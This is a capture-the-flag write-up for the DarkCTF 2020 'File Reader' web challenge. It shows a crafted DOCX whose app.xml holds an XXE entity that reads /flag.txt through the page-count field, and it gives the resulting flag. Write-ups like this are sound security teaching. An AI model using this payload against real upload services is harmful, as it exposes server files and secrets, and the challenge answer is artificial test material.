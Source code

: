 # DarkCTF 2020 – File Reader

* **Category:** web
* **Points:** 494?

## Challenge

> My friend developed this website but he says user should know some Xtreme > Manipulative Language to understand this web.
> 
> Flag is in /flag.txt
> 
> http://filereader.darkarmy.xyz/

## Solution

The web site is a form to upload files. Reading the challenge description, an *XXE* should be involved.

The form allows only PDF and DOCX files.

Uploading a DOCX file, you can notice that some information are shown. One of them is the number of pages.

DOCX files are archives of files where XML documents are present.

It is sufficiento to create a DOCX and to alter the [`test.docx\docProps\app.xml`](app.xml) file, where the number of pages is stored, like the following.

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<Properties xmlns="http://schemas.openxmlformats.org/officeDocument/2006/extended-properties" xmlns:vt="http://schemas.openxmlformats.org/officeDocument/2006/docPropsVTypes"><Template>Normal.dotm</Template><TotalTime>0</TotalTime><Pages>&xxe;</Pages><Words>0</Words><Characters>4</Characters><Application>Microsoft Office Word</Application><DocSecurity>0</DocSecurity><Lines>1</Lines><Paragraphs>1</Paragraphs><ScaleCrop>false</ScaleCrop><Company>Reply</Company><LinksUpToDate>false</LinksUpToDate><CharactersWithSpaces>4</CharactersWithSpaces><SharedDoc>false</SharedDoc><HyperlinksChanged>false</HyperlinksChanged><AppVersion>16.0000</AppVersion></Properties>
```

Uploading the file in the web application will return the flag where the number of pages is shown. The flag will be the following.

```
darkCTF{1nj3ct1ng_d0cx_f0r_xx3}
```